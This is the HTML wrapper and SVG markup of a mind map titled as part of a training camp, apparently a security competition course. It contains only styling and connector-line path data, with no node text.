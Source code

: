 <div id="main-area">
      <div id="content-info">
        <div id="content-info">
          <div id="title">铁三训练营部分</div>
        </div>
      </div>
      <div id="main-content">
        <div id="svg-container"><svg xmlns:xlink="http://www.w3.org/1999/xlink" width="1467" ed:name="Page-1" id="page1" viewBox="0 0 1467 3341" xmlns="http://www.w3.org/2000/svg" ed:hSpacing="30" xmlns:ev="http://www.w3.org/2001/xml-events" height="3341" preserveAspectRadio="xMinYMin meet" xmlns:ed="http://www.edrawsoft.cn/xml/2017/SVGExtensions/" ed:vSpacing="30">
    <style type="text/css"><![CDATA[
g[ed\:togtopicid],g[ed\:hyperlink],g[ed\:comment],g[ed\:note] {cursor:pointer;}
svg text::selection,svg tspan::selection{background-color: #4285f4;color: #ffffff;fill: #ffffff;}
.st6 {fill:#000000;font-family:Microsoft YaHei;font-size:10pt}
.st5 {fill:#17375e;font-family:Microsoft YaHei;font-size:13pt}
.st4 {fill:#376092;font-family:Microsoft YaHei;font-size:18pt;font-weight:bold}
]]></style>
    <defs>
        <linearGradient y2="100%" id="lg2" x2="0%" x1="0%" y1="0%">
            <stop stop-color="#ffffff" offset="0"/>
            <stop stop-color="#f0f5f0" offset="0.25"/>
            <stop stop-color="#e1ebe1" offset="0.75"/>
            <stop stop-color="#c8d7c8" offset="1"/>
        </linearGradient>
    </defs>
    <rect y="0" fill="#ffffff" width="1467" height="3341" x="0"/>
    <path ed:tosuperid="102" stroke-linecap="round" fill="none" id="103" stroke-linejoin="round" d="M22.3,0C39.5,0,60.9,0,85.3,0" ed:parentid="101" stroke="#558ed5" transform="matrix(1,0,0,1,218,1671)"/>
    <path ed:tosuperid="104" stroke-linecap="round" fill="none" id="105" stroke-linejoin="round" d="M-13.5,693.1L-0.5,693.1C-0.5,-138.6,5.1,-693.1,13.5,-693.1" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,977)"/>
    <path ed:tosuperid="106" stroke-linecap="round" fill="none" id="107" stroke-linejoin="round" d="M-13.5,47.3L-0.5,47.3C-0.5,-9.5,5.1,-47.3,13.5,-47.3" ed:parentid="104" stroke="#558ed5" transform="matrix(1,0,0,1,532,237)"/>
    <path ed:tosuperid="108" stroke-linecap="round" fill="none" id="109" stroke-linejoin="round" d="M-13.5,63L-0.5,63C-0.5,-12.6,5.1,-63,13.5,-63" ed:parentid="106" stroke="#558ed5" transform="matrix(1,0,0,1,928,127)"/>
    <path ed:tosuperid="110" stroke-linecap="round" fill="none" id="111" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="108" stroke="#558ed5" transform="matrix(1,0,0,1,999,56)"/>
    <path ed:tosuperid="112" stroke-linecap="round" fill="none" id="113" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="108" stroke="#558ed5" transform="matrix(1,0,0,1,999,72)"/>
    <path ed:tosuperid="114" stroke-linecap="round" fill="none" id="115" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.1,5.1,15.8,13.5,15.8" ed:parentid="106" stroke="#558ed5" transform="matrix(1,0,0,1,928,206)"/>
    <path ed:tosuperid="116" stroke-linecap="round" fill="none" id="117" stroke-linejoin="round" d="M-13.5,55.1L-0.5,55.1C-0.5,-11,5.1,-55.1,13.5,-55.1" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,166)"/>
    <path ed:tosuperid="118" stroke-linecap="round" fill="none" id="119" stroke-linejoin="round" d="M-0.5,39.4C-0.5,-7.9,5.1,-39.4,13.5,-39.4" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,182)"/>
    <path ed:tosuperid="120" stroke-linecap="round" fill="none" id="121" stroke-linejoin="round" d="M-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,198)"/>
    <path ed:tosuperid="122" stroke-linecap="round" fill="none" id="123" stroke-linejoin="round" d="M-13.5,0L-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="120" stroke="#558ed5" transform="matrix(1,0,0,1,1154,174)"/>
    <path ed:tosuperid="124" stroke-linecap="round" fill="none" id="125" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,213)"/>
    <path ed:tosuperid="126" stroke-linecap="round" fill="none" id="127" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,229)"/>
    <path ed:tosuperid="128" stroke-linecap="round" fill="none" id="129" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,245)"/>
    <path ed:tosuperid="130" stroke-linecap="round" fill="none" id="131" stroke-linejoin="round" d="M-0.5,-39.4C-0.5,7.9,5.1,39.4,13.5,39.4" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,261)"/>
    <path ed:tosuperid="132" stroke-linecap="round" fill="none" id="133" stroke-linejoin="round" d="M-0.5,-55.1C-0.5,11,5.1,55.1,13.5,55.1" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,276)"/>
    <path ed:tosuperid="134" stroke-linecap="round" fill="none" id="135" stroke-linejoin="round" d="M-0.5,-78.8C-0.5,15.8,5.1,78.8,13.5,78.8" ed:parentid="104" stroke="#558ed5" transform="matrix(1,0,0,1,532,363)"/>
    <path ed:tosuperid="136" stroke-linecap="round" fill="none" id="137" stroke-linejoin="round" d="M-13.5,31.5L-0.5,31.5C-0.5,-6.3,5.1,-31.5,13.5,-31.5" ed:parentid="134" stroke="#558ed5" transform="matrix(1,0,0,1,866,410)"/>
    <path ed:tosuperid="138" stroke-linecap="round" fill="none" id="139" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="136" stroke="#558ed5" transform="matrix(1,0,0,1,937,371)"/>
    <path ed:tosuperid="140" stroke-linecap="round" fill="none" id="141" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="136" stroke="#558ed5" transform="matrix(1,0,0,1,937,387)"/>
    <path ed:tosuperid="142" stroke-linecap="round" fill="none" id="143" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.1,5.1,15.8,13.5,15.8" ed:parentid="134" stroke="#558ed5" transform="matrix(1,0,0,1,866,458)"/>
    <path ed:tosuperid="144" stroke-linecap="round" fill="none" id="145" stroke-linejoin="round" d="M-13.5,23.6L-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="142" stroke="#558ed5" transform="matrix(1,0,0,1,937,450)"/>
    <path ed:tosuperid="146" stroke-linecap="round" fill="none" id="147" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="142" stroke="#558ed5" transform="matrix(1,0,0,1,937,465)"/>
    <path ed:tosuperid="148" stroke-linecap="round" fill="none" id="149" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="142" stroke="#558ed5" transform="matrix(1,0,0,1,937,481)"/>
    <path ed:tosuperid="150" stroke-linecap="round" fill="none" id="151" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="142" stroke="#558ed5" transform="matrix(1,0,0,1,937,497)"/>
    <path ed:tosuperid="152" stroke-linecap="round" fill="none" id="153" stroke-linejoin="round" d="M-0.5,559.3C-0.5,-111.9,5.1,-559.3,13.5,-559.3" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1111)"/>
    <path ed:tosuperid="154" stroke-linecap="round" fill="none" id="155" stroke-linejoin="round" d="M-13.5,0L-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="152" stroke="#558ed5" transform="matrix(1,0,0,1,532,552)"/>
    <path ed:tosuperid="156" stroke-linecap="round" fill="none" id="157" stroke-linejoin="round" d="M-0.5,488.4C-0.5,-97.7,5.1,-488.4,13.5,-488.4" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1182)"/>
    <path ed:tosuperid="158" stroke-linecap="round" fill="none" id="159" stroke-linejoin="round" d="M-13.5,31.5L-0.5,31.5C-0.5,-6.3,5.1,-31.5,13.5,-31.5" ed:parentid="156" stroke="#558ed5" transform="matrix(1,0,0,1,776,662)"/>
    <path ed:tosuperid="160" stroke-linecap="round" fill="none" id="161" stroke-linejoin="round" d="M-13.5,23.6L-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="158" stroke="#558ed5" transform="matrix(1,0,0,1,847,607)"/>
    <path ed:tosuperid="162" stroke-linecap="round" fill="none" id="163" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="158" stroke="#558ed5" transform="matrix(1,0,0,1,847,623)"/>
    <path ed:tosuperid="164" stroke-linecap="round" fill="none" id="165" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="158" stroke="#558ed5" transform="matrix(1,0,0,1,847,639)"/>
    <path ed:tosuperid="166" stroke-linecap="round" fill="none" id="167" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="158" stroke="#558ed5" transform="matrix(1,0,0,1,847,654)"/>
    <path ed:tosuperid="168" stroke-linecap="round" fill="none" id="169" stroke-linejoin="round" d="M-0.5,-31.5C-0.5,6.3,5.1,31.5,13.5,31.5" ed:parentid="156" stroke="#558ed5" transform="matrix(1,0,0,1,776,725)"/>
    <path ed:tosuperid="170" stroke-linecap="round" fill="none" id="171" stroke-linejoin="round" d="M-13.5,23.6L-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="168" stroke="#558ed5" transform="matrix(1,0,0,1,847,733)"/>
    <path ed:tosuperid="172" stroke-linecap="round" fill="none" id="173" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="168" stroke="#558ed5" transform="matrix(1,0,0,1,847,749)"/>
    <path ed:tosuperid="174" stroke-linecap="round" fill="none" id="175" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="168" stroke="#558ed5" transform="matrix(1,0,0,1,847,765)"/>
    <path ed:tosuperid="176" stroke-linecap="round" fill="none" id="177" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="168" stroke="#558ed5" transform="matrix(1,0,0,1,847,780)"/>
    <path ed:tosuperid="178" stroke-linecap="round" fill="none" id="179" stroke-linejoin="round" d="M-0.5,378.1C-0.5,-75.6,5.1,-378.1,13.5,-378.1" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1292)"/>
    <path ed:tosuperid="180" stroke-linecap="round" fill="none" id="181" stroke-linejoin="round" d="M-13.5,23.6L-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="178" stroke="#558ed5" transform="matrix(1,0,0,1,747,891)"/>
    <path ed:tosuperid="182" stroke-linecap="round" fill="none" id="183" stroke-linejoin="round" d="M-13.5,15.8L-0.5,15.8C-0.5,-3.2,5.1,-15.8,13.5,-15.8" ed:parentid="180" stroke="#558ed5" transform="matrix(1,0,0,1,818,851)"/>
    <path ed:tosuperid="184" stroke-linecap="round" fill="none" id="185" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="180" stroke="#558ed5" transform="matrix(1,0,0,1,818,867)"/>
    <path ed:tosuperid="186" stroke-linecap="round" fill="none" id="187" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.2,5.1,15.8,13.5,15.8" ed:parentid="180" stroke="#558ed5" transform="matrix(1,0,0,1,818,883)"/>
    <path ed:tosuperid="188" stroke-linecap="round" fill="none" id="189" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="178" stroke="#558ed5" transform="matrix(1,0,0,1,747,938)"/>
    <path ed:tosuperid="190" stroke-linecap="round" fill="none" id="191" stroke-linejoin="round" d="M-13.5,15.8L-0.5,15.8C-0.5,-3.2,5.1,-15.8,13.5,-15.8" ed:parentid="188" stroke="#558ed5" transform="matrix(1,0,0,1,818,946)"/>
    <path ed:tosuperid="192" stroke-linecap="round" fill="none" id="193" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="188" stroke="#558ed5" transform="matrix(1,0,0,1,818,962)"/>
    <path ed:tosuperid="194" stroke-linecap="round" fill="none" id="195" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.2,5.1,15.8,13.5,15.8" ed:parentid="188" stroke="#558ed5" transform="matrix(1,0,0,1,818,977)"/>
    <path ed:tosuperid="196" stroke-linecap="round" fill="none" id="197" stroke-linejoin="round" d="M-0.5,267.9C-0.5,-53.6,5.1,-267.9,13.5,-267.9" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1403)"/>
    <path ed:tosuperid="198" stroke-linecap="round" fill="none" id="199" stroke-linejoin="round" d="M-13.5,47.3L-0.5,47.3C-0.5,-9.4,5.1,-47.3,13.5,-47.3" ed:parentid="196" stroke="#558ed5" transform="matrix(1,0,0,1,795,1088)"/>
    <path ed:tosuperid="200" stroke-linecap="round" fill="none" id="201" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="198" stroke="#558ed5" transform="matrix(1,0,0,1,866,1032)"/>
    <path ed:tosuperid="202" stroke-linecap="round" fill="none" id="203" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="198" stroke="#558ed5" transform="matrix(1,0,0,1,866,1048)"/>
    <path ed:tosuperid="204" stroke-linecap="round" fill="none" id="205" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.1,5.1,15.8,13.5,15.8" ed:parentid="196" stroke="#558ed5" transform="matrix(1,0,0,1,795,1151)"/>
    <path ed:tosuperid="206" stroke-linecap="round" fill="none" id="207" stroke-linejoin="round" d="M-13.5,39.4L-0.5,39.4C-0.5,-7.9,5.1,-39.4,13.5,-39.4" ed:parentid="204" stroke="#558ed5" transform="matrix(1,0,0,1,866,1127)"/>
    <path ed:tosuperid="208" stroke-linecap="round" fill="none" id="209" stroke-linejoin="round" d="M-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="204" stroke="#558ed5" transform="matrix(1,0,0,1,866,1143)"/>
    <path ed:tosuperid="210" stroke-linecap="round" fill="none" id="211" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="204" stroke="#558ed5" transform="matrix(1,0,0,1,866,1158)"/>
    <path ed:tosuperid="212" stroke-linecap="round" fill="none" id="213" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="204" stroke="#558ed5" transform="matrix(1,0,0,1,866,1174)"/>
    <path ed:tosuperid="214" stroke-linecap="round" fill="none" id="215" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="204" stroke="#558ed5" transform="matrix(1,0,0,1,866,1190)"/>
    <path ed:tosuperid="216" stroke-linecap="round" fill="none" id="217" stroke-linejoin="round" d="M-0.5,-39.4C-0.5,7.9,5.1,39.4,13.5,39.4" ed:parentid="204" stroke="#558ed5" transform="matrix(1,0,0,1,866,1206)"/>
    <path ed:tosuperid="218" stroke-linecap="round" fill="none" id="219" stroke-linejoin="round" d="M-0.5,157.6C-0.5,-31.5,5.1,-157.6,13.5,-157.6" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1513)"/>
    <path ed:tosuperid="220" stroke-linecap="round" fill="none" id="221" stroke-linejoin="round" d="M-13.5,39.4L-0.5,39.4C-0.5,-7.9,5.1,-39.4,13.5,-39.4" ed:parentid="218" stroke="#558ed5" transform="matrix(1,0,0,1,527,1316)"/>
    <path ed:tosuperid="222" stroke-linecap="round" fill="none" id="223" stroke-linejoin="round" d="M-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="218" stroke="#558ed5" transform="matrix(1,0,0,1,527,1332)"/>
    <path ed:tosuperid="224" stroke-linecap="round" fill="none" id="225" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="218" stroke="#558ed5" transform="matrix(1,0,0,1,527,1347)"/>
    <path ed:tosuperid="226" stroke-linecap="round" fill="none" id="227" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="218" stroke="#558ed5" transform="matrix(1,0,0,1,527,1363)"/>
    <path ed:tosuperid="228" stroke-linecap="round" fill="none" id="229" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="218" stroke="#558ed5" transform="matrix(1,0,0,1,527,1379)"/>
    <path ed:tosuperid="230" stroke-linecap="round" fill="none" id="231" stroke-linejoin="round" d="M-0.5,-39.4C-0.5,7.9,5.1,39.4,13.5,39.4" ed:parentid="218" stroke="#558ed5" transform="matrix(1,0,0,1,527,1395)"/>
    <path ed:tosuperid="232" stroke-linecap="round" fill="none" id="233" stroke-linejoin="round" d="M-0.5,63.1C-0.5,-12.6,5.1,-63.1,13.5,-63.1" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1607)"/>
    <path ed:tosuperid="234" stroke-linecap="round" fill="none" id="235" stroke-linejoin="round" d="M-13.5,39.4L-0.5,39.4C-0.5,-7.9,5.1,-39.4,13.5,-39.4" ed:parentid="232" stroke="#558ed5" transform="matrix(1,0,0,1,512,1505)"/>
    <path ed:tosuperid="236" stroke-linecap="round" fill="none" id="237" stroke-linejoin="round" d="M-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="232" stroke="#558ed5" transform="matrix(1,0,0,1,512,1521)"/>
    <path ed:tosuperid="238" stroke-linecap="round" fill="none" id="239" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="232" stroke="#558ed5" transform="matrix(1,0,0,1,512,1536)"/>
    <path ed:tosuperid="240" stroke-linecap="round" fill="none" id="241" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="232" stroke="#558ed5" transform="matrix(1,0,0,1,512,1552)"/>
    <path ed:tosuperid="242" stroke-linecap="round" fill="none" id="243" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="232" stroke="#558ed5" transform="matrix(1,0,0,1,512,1568)"/>
    <path ed:tosuperid="244" stroke-linecap="round" fill="none" id="245" stroke-linejoin="round" d="M-0.5,-39.4C-0.5,7.9,5.1,39.4,13.5,39.4" ed:parentid="232" stroke="#558ed5" transform="matrix(1,0,0,1,512,1584)"/>
    <path ed:tosuperid="246" stroke-linecap="round" fill="none" id="247" stroke-linejoin="round" d="M-0.5,0.1C-0.5,-0,5.1,-0.1,13.5,-0.1" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1670)"/>
    <path ed:tosuperid="248" stroke-linecap="round" fill="none" id="249" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="246" stroke="#558ed5" transform="matrix(1,0,0,1,518,1662)"/>
    <path ed:tosuperid="250" stroke-linecap="round" fill="none" id="251" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="246" stroke="#558ed5" transform="matrix(1,0,0,1,518,1678)"/>
    <path ed:tosuperid="252" stroke-linecap="round" fill="none" id="253" stroke-linejoin="round" d="M-0.5,-31.4C-0.5,6.3,5.1,31.4,13.5,31.4" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1702)"/>
    <path ed:tosuperid="254" stroke-linecap="round" fill="none" id="255" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="252" stroke="#558ed5" transform="matrix(1,0,0,1,537,1725)"/>
    <path ed:tosuperid="256" stroke-linecap="round" fill="none" id="257" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="252" stroke="#558ed5" transform="matrix(1,0,0,1,537,1741)"/>
    <path ed:tosuperid="258" stroke-linecap="round" fill="none" id="259" stroke-linejoin="round" d="M-0.5,-86.5C-0.5,17.3,5.1,86.5,13.5,86.5" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1757)"/>
    <path ed:tosuperid="260" stroke-linecap="round" fill="none" id="261" stroke-linejoin="round" d="M-13.5,31.5L-0.5,31.5C-0.5,-6.3,5.1,-31.5,13.5,-31.5" ed:parentid="258" stroke="#558ed5" transform="matrix(1,0,0,1,510,1812)"/>
    <path ed:tosuperid="262" stroke-linecap="round" fill="none" id="263" stroke-linejoin="round" d="M-0.5,15.8C-0.5,-3.1,5.1,-15.8,13.5,-15.8" ed:parentid="258" stroke="#558ed5" transform="matrix(1,0,0,1,510,1828)"/>
    <path ed:tosuperid="264" stroke-linecap="round" fill="none" id="265" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="258" stroke="#558ed5" transform="matrix(1,0,0,1,510,1844)"/>
    <path ed:tosuperid="266" stroke-linecap="round" fill="none" id="267" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.1,5.1,15.8,13.5,15.8" ed:parentid="258" stroke="#558ed5" transform="matrix(1,0,0,1,510,1859)"/>
    <path ed:tosuperid="268" stroke-linecap="round" fill="none" id="269" stroke-linejoin="round" d="M-0.5,-31.5C-0.5,6.3,5.1,31.5,13.5,31.5" ed:parentid="258" stroke="#558ed5" transform="matrix(1,0,0,1,510,1875)"/>
    <path ed:tosuperid="270" stroke-linecap="round" fill="none" id="271" stroke-linejoin="round" d="M-0.5,-165.3C-0.5,33,5.1,165.3,13.5,165.3" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1836)"/>
    <path ed:tosuperid="272" stroke-linecap="round" fill="none" id="273" stroke-linejoin="round" d="M-13.5,31.5L-0.5,31.5C-0.5,-6.3,5.1,-31.5,13.5,-31.5" ed:parentid="270" stroke="#558ed5" transform="matrix(1,0,0,1,521,1970)"/>
    <path ed:tosuperid="274" stroke-linecap="round" fill="none" id="275" stroke-linejoin="round" d="M-0.5,15.8C-0.5,-3.1,5.1,-15.8,13.5,-15.8" ed:parentid="270" stroke="#558ed5" transform="matrix(1,0,0,1,521,1985)"/>
    <path ed:tosuperid="276" stroke-linecap="round" fill="none" id="277" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="270" stroke="#558ed5" transform="matrix(1,0,0,1,521,2001)"/>
    <path ed:tosuperid="278" stroke-linecap="round" fill="none" id="279" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.1,5.1,15.8,13.5,15.8" ed:parentid="270" stroke="#558ed5" transform="matrix(1,0,0,1,521,2017)"/>
    <path ed:tosuperid="280" stroke-linecap="round" fill="none" id="281" stroke-linejoin="round" d="M-0.5,-31.5C-0.5,6.3,5.1,31.5,13.5,31.5" ed:parentid="270" stroke="#558ed5" transform="matrix(1,0,0,1,521,2033)"/>
    <path ed:tosuperid="282" stroke-linecap="round" fill="none" id="283" stroke-linejoin="round" d="M-0.5,-212.5C-0.5,42.5,5.1,212.5,13.5,212.5" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1883)"/>
    <path ed:tosuperid="284" stroke-linecap="round" fill="none" id="285" stroke-linejoin="round" d="M-0.5,-236.1C-0.5,47.2,5.1,236.1,13.5,236.1" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1907)"/>
    <path ed:tosuperid="286" stroke-linecap="round" fill="none" id="287" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="284" stroke="#558ed5" transform="matrix(1,0,0,1,557,2135)"/>
    <path ed:tosuperid="288" stroke-linecap="round" fill="none" id="289" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="284" stroke="#558ed5" transform="matrix(1,0,0,1,557,2151)"/>
    <path ed:tosuperid="290" stroke-linecap="round" fill="none" id="291" stroke-linejoin="round" d="M-0.5,-296C-0.5,59.2,5.1,296,13.5,296" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1967)"/>
    <path ed:tosuperid="292" stroke-linecap="round" fill="none" id="293" stroke-linejoin="round" d="M-13.5,23.6L-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="290" stroke="#558ed5" transform="matrix(1,0,0,1,615,2239)"/>
    <path ed:tosuperid="294" stroke-linecap="round" fill="none" id="295" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="292" stroke="#558ed5" transform="matrix(1,0,0,1,686,2207)"/>
    <path ed:tosuperid="296" stroke-linecap="round" fill="none" id="297" stroke-linejoin="round" d="M-13.5,-4.8L-0.5,-4.8C-0.5,1,5.1,4.8,13.5,4.8" ed:parentid="294" stroke="#558ed5" transform="matrix(1,0,0,1,783,2204)"/>
    <path ed:tosuperid="298" stroke-linecap="round" fill="none" id="299" stroke-linejoin="round" d="M-0.5,-12.6C-0.5,2.5,5.1,12.6,13.5,12.6" ed:parentid="292" stroke="#558ed5" transform="matrix(1,0,0,1,686,2228)"/>
    <path ed:tosuperid="300" stroke-linecap="round" fill="none" id="301" stroke-linejoin="round" d="M-0.5,-20.5C-0.5,4.1,5.1,20.5,13.5,20.5" ed:parentid="290" stroke="#558ed5" transform="matrix(1,0,0,1,615,2283)"/>
    <path ed:tosuperid="302" stroke-linecap="round" fill="none" id="303" stroke-linejoin="round" d="M-13.5,15.8L-0.5,15.8C-0.5,-3.2,5.1,-15.8,13.5,-15.8" ed:parentid="300" stroke="#558ed5" transform="matrix(1,0,0,1,686,2288)"/>
    <path ed:tosuperid="304" stroke-linecap="round" fill="none" id="305" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="300" stroke="#558ed5" transform="matrix(1,0,0,1,686,2304)"/>
    <path ed:tosuperid="306" stroke-linecap="round" fill="none" id="307" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.2,5.1,15.8,13.5,15.8" ed:parentid="300" stroke="#558ed5" transform="matrix(1,0,0,1,686,2319)"/>
    <path ed:tosuperid="308" stroke-linecap="round" fill="none" id="309" stroke-linejoin="round" d="M-0.5,-420.5C-0.5,84.1,5.1,420.5,13.5,420.5" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,2091)"/>
    <path ed:tosuperid="310" stroke-linecap="round" fill="none" id="311" stroke-linejoin="round" d="M-13.5,47.3L-0.5,47.3C-0.5,-9.5,5.1,-47.3,13.5,-47.3" ed:parentid="308" stroke="#558ed5" transform="matrix(1,0,0,1,749,2464)"/>
    <path ed:tosuperid="312" stroke-linecap="round" fill="none" id="313" stroke-linejoin="round" d="M-13.5,25.3L-0.5,25.3C-0.5,-5,5.1,-25.3,13.5,-25.3" ed:parentid="310" stroke="#558ed5" transform="matrix(1,0,0,1,820,2392)"/>
    <path ed:tosuperid="314" stroke-linecap="round" fill="none" id="315" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="310" stroke="#558ed5" transform="matrix(1,0,0,1,820,2417)"/>
    <path ed:tosuperid="316" stroke-linecap="round" fill="none" id="317" stroke-linejoin="round" d="M-13.5,-9.5L-0.5,-9.5C-0.5,1.9,5.1,9.5,13.5,9.5" ed:parentid="314" stroke="#558ed5" transform="matrix(1,0,0,1,917,2427)"/>
    <path ed:tosuperid="318" stroke-linecap="round" fill="none" id="319" stroke-linejoin="round" d="M-0.5,-25.3C-0.5,5,5.1,25.3,13.5,25.3" ed:parentid="310" stroke="#558ed5" transform="matrix(1,0,0,1,820,2442)"/>
